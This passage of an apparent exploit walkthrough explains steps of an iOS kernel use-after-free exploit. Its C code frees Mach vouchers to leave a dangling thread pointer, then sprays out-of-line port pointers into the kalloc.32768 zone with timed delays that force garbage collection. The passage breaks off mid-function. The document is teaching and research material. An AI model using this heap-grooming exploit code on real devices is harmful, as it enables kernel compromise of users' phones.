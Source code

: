 {% highlight c %}
    // 10\. Free the vouchers we created earlier. This leaves a voucher pointer dangling in our
    	// thread's ith_voucher field. The voucher ports we created earlier are all now invalid.
    	//
    	// The voucher objects themselves have all been overwritten with 0xdeadbeefdeadbeef. If we
    	// call thread_get_mach_voucher() here, we'll get an "os_refcnt: overflow" panic, and if we
    	// call thread_set_mach_voucher() to clear it, we'll get an "a freed zone element has been
    	// modified in zone ipc vouchers" panic.
    	voucher_spray_free(voucher_ports, voucher_spray_count);
{% endhighlight %}
#### Step 11: Release the Vouchers to overlap with the port pointers

If you remember from Step 6, we used 500 (**gc_port_count**) of the **2000** ports that we had bumped the queue limit to already for spraying. So now we will spray the other ports until we hit the total spray size as **17%** of our platform size. The **ool_holding_ports** pointer is taken from index 500 (**gc_port_count**) onwards since we already used the first **500** for spraying. The idea is to also keep allocation size as **32768** so that it lands in the **kalloc.32768** zone, this is done by keeping the number of port pointers for each message (**ool_port_count = ool_port_spray_kalloc_zone / sizeof(uint64_t**), where **ool_port_spray_kalloc_zone = 32768**), and hopefully after this the memory freed earlier from the vouchers will be reallocated here.

{% highlight c %}
    // 11\. Reallocate the freed voucher with the OOL port pattern created earlier in the
    	// kalloc.32768 zone. We need to do this slowly in order to force a zone garbage
    	// collection. Spraying 17% of memory (450 MB on the iPhone XR) with OOL ports should be
    	// plenty.
    	const size_t ool_ports_spray_size = 0.17 * platform.memory_size;
    	mach_port_t *ool_holding_ports = gc_ports + gc_port_count;
    	size_t ool_holding_port_count = 500;	// Use at most 500 ports for the spray.
    	sprayed_size = ool_ports_spray_size_with_gc(ool_holding_ports, &ool_holding_port_count,
    			message_size_for_kalloc_size(512),
    			ool_ports, ool_port_count, MACH_MSG_TYPE_MAKE_SEND,
    			ool_ports_spray_size);
    	INFO("sprayed %zu bytes of OOL ports to %zu ports in kalloc.%zu",
    			sprayed_size, ool_holding_port_count, ool_port_spray_kalloc_zone);
    	free(ool_ports);
{% endhighlight %}
If you look under the method **ool_ports_spray_size_with_gc**, there is also delay added between every **2MB** (**gc_step**) of spray with **usleep()** to give time for zone garbage collection.

Each of these ports are sprayed using mach messages with OOL port descriptors. This will allocate kernel memory and fill them with port pointers. The following code in **ool_ports_spray_port** is used to allocate parameters and send the message.

{% highlight c %}
    // Populate the message. Each OOL ports descriptor will be a kalloc.
    	msg->header.msgh_bits           = MACH_MSGH_BITS_SET(MACH_MSG_TYPE_MAKE_SEND, 0, 0, MACH_MSGH_BITS_COMPLEX);
    	msg->header.msgh_remote_port    = holding_port;
    	msg->header.msgh_size           = (mach_msg_size_t) message_size;
    	msg->header.msgh_id             = 'ools';
    	msg->body.msgh_descriptor_count = (mach_msg_size_t) ool_count;
    	mach_msg_ool_ports_descriptor_t ool_descriptor = {};
    	ool_descriptor.type             = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    	ool_descriptor.address          = (void *) ool_ports;
    	ool_descriptor.count            = (mach_msg_size_t) port_count;
    	ool_descriptor.deallocate       = FALSE;
    	ool_descriptor.copy             = MACH_MSG_PHYSICAL_COPY;
    	ool_descriptor.disposition      = ool_disposition;
    	for (size_t i = 0; i < ool_count; i++) {
    		msg->ool_ports[i] = ool_descriptor;
    	}
    	// Send the messages.
    	size_t messages_sent = 0;